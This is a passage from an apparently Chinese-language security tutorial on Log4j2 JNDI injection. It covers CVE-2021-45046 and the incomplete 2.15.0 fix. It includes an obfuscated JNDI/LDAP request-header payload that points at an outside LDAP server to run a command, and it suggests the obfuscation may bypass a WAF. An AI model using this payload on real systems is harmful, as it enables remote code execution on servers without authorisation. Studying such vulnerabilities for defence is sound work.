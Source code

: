 ![image-20230711175225943](img/image-20230711175225943.png)

请求头内容改成这样

```
${${lower:j}${lower:n}${lower:d}${lower:i}:${lower:l}${lower:d}${lower:a}${lower:p}://10.89.17.243:1389/Basic/Command/Base64/Y2FsYw==}
```

说不定能绕过 WAF

### 2.3 Log4j2 JNDI 注入漏洞（CVE-2021-45046）

（1）漏洞介绍

对于 CVE-2021-44228 漏洞在`2.15.0`版本上的修复不完善，漏洞影响版本：`All versions from 2.0-beta9 to 2.15.0, excluding 2.12.2`

（2）漏洞原理

从`2.15.0`版本开始，默认是不开启 Lookup 功能，即`log42.formatMsgNoLookups`默认为`true`。已无法再通过设置该选项为`false`来开启 Lookup 功能，只能通过在配置文件中指定`%m{lookups}` 来开启。

并且，JndiManager#lookup()方法中，进行了以下安全校验：

```
(1) allowedProtocols：只允许协议java、ldap、ldaps；
(2) allowedHosts：只允许主机为本机IP127.0.0.1、localhost等。
(3) allowedClasses：LDAP服务器的返回包中javaClassName只允许为基本数据类型的类，比如java.lang.Boolean、java.lang.Byte、java.lang.Short等等。
(4) 不能加载远程ObjectFactory类。
```
